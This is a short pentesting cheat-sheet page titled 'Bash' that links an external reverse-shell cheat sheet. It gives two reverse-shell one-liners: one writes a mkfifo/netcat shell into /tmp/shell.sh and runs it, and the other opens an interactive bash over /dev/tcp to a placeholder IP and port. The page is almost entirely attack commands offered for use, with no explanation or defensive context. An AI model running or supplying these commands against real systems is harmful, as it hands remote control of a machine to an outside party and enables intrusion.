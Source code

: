 # Bash

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f" \
> /tmp/shell.sh

/bin/sh -c "bash /tmp/shell.sh"
```

```
/bin/sh -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
